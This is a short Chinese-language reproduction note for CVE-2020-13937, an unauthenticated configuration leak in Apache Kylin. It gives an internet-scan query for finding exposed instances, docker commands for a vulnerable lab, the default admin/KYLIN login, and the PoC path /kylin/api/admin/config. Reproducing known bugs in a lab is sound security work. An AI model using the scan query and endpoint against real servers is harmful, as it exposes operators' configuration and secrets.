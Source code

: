 # Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## 网络测绘

```
app="APACHE-kylin"
```

## 环境搭建

```
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![image-20220525161044773](images/202205251610838.png)

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220525161140820](images/202205251611885.png)